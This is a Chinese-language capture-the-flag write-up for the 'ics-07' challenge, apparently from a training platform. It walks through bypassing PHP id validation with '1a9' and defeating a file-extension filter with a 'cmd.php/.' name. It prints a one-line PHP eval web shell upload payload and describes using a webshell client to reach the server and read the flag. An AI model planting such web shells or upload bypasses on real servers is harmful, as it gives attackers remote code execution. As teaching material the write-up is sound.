


# ics-07
## 题目描述
工控云管理系统项目管理页面解析漏洞
## 思路
http://220.249.52.133:36541  
点进题目链接，熟悉的界面，我们直接进入项目管理页面：  
  
有 view-source，直接查看源码，发现源码有三段 php 代码，顺序有点意思，是倒序，先分析最下面的代码：  
  
主要需要绕过三个函数：  
```php
isset($_GET[id]); //是否设置id参数
floatval($_GET[id]) !== '1'; //传入的id浮点值不能为1
substr($_GET[id], -1) === '9');//id的最后一个字符得是9
```
那我们直接构造最简单的 19 尝试一下：  
  
报错，这应该是 $result 出现了问题，应该是没有 19 这个 id，怎么才能让 id 既是 1 又能通过以上三个函数的过滤呢？尝试中间加入字符，如 1a9，最终得到结果：  
  
继续分析下一段代码：  
  
首先是，POST 参数，然后出来一个文件目录 backup/，但由于后面又 chdir，因此前面那个 backup/ 是个假目录，真实的上传目录是 chdir 中的 uploaded/。因为他把文件名改为了 backup/file 因此，在上传时需要在文件名前加一个 ../ 否则，上传的文件会出现在 uploaded/backup/ 文件夹中。其实，这个问题不大，如果不改，在使用菜刀的时候，加一层目录就好了。  
有一个正则匹配，过滤文件名，但主要是过滤后缀，即 .php 以及 .php4567 这些，但是这存在一个问题，就是它只检测最后一个 . 那我们可以多加一个 /. 即可。  
因此，构建 POST 参数，上传一句话木马：  
```php
con=<?php @eval($_POST['cmd']);?>&file=../cmd.php/.
```
bp 截图：  
  
接下来就该用菜刀了：  
  
顺利访问到了网站目录：  
  
找找 flag 就好了，最终，在 html 目录中找到了 flag.php 文件：  
  
访问一下 flag.php 文件，得到 flag：  
  
